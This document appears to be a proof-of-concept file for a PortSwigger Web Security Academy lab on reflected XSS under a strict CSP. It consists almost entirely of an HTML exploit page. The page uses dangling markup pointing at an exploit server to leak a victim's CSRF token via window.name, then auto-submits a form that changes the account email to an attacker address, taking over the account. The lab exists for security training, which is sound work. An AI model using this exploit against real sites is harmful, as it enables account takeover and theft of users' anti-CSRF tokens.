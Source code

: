 # PortSwigger Poc - Reflected XSS protected by very strict CSP, with dangling markup attack  - Account Takeover [ CSRF Token Exifiltrate + Change Email Auto Submit ]
https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack

```html
<html>
  <body>
    <script>
      if (window.name) {
        var token = window.name.split('value="')[1].split('">')[0];
      } else {
        location = "https://0ac600ca04fafg28864349f200af0085.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0aee001404a9fe52863f483d017c00c1.exploit-server.net/nowak%22%3EClick%20Me%3C/a%3E%3Cbase%20target=%27%3E";
      }
    </script>
    <script>
      document.addEventListener('DOMContentLoaded', function() {
        document.forms[0].csrf.value = token;
        document.forms[0].submit();
      });
    </script>
    <form action="https://0ac600ca04fafg28864349f200af0085.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker@evil-user.net" />
      <input type="hidden" id="csrf" name="csrf" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
